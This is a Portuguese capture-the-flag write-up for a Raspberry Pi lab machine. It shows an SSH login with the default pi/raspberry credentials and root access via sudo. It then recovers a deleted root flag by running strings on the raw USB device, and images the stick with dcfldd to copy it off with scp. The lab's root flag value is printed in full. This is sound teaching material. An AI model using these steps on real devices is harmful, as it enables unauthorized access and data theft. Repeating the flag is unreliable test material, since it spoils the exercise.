 ### 7.1 Acesso inicial via SSH
```bash
ssh pi@10.10.10.48
```

# Senha: raspberry

**Resultado**:
- Acesso concedido com aviso: "SSH is enabled and the default password for the 'pi' user has not been changed"
- Verificação de privilégios:
```bash
sudo id
# uid=0(root) gid=0(root) groups=0(root)
```

![NON](file-20250703224927.png)

**Flags**:
- User flag: `/home/pi/Desktop/user.txt`
- Root flag: Mensagem indicando backup em pendrive (ver seção 8)

---
## 8. Escalada de Privilégios

**Análise de partições**:
```bash
df -h
```
![NON](file-20250703225136.png)

**Resultado**:

- Pendrive montado em `/media/usbstick`
- Conteúdo:
    - `dammit.txt`: Nota sobre arquivos deletados acidentalmente

**Recuperação da flag root**:
### Método 1: Strings no dispositivo
```bash
sudo strings /dev/sdb
```

**Saída**:
```bash
3d3e483143ff12ec505d026fa13e020b  # Flag root
```
![NON](file-20250703225413.png)

### Método 2: Análise forense (método intencional)

- Criar imagem do pendrive:
```bash
sudo dcfldd if=/dev/sdb of=/home/pi/usb.dd
```
- Transferir para máquina atacante:
```bash
scp pi@10.10.10.48:/home/pi/usb.dd .
```
- Análise com ferramentas forenses (testdisk, hex editor, strings)
![NON](file-20250703225427.png)

---
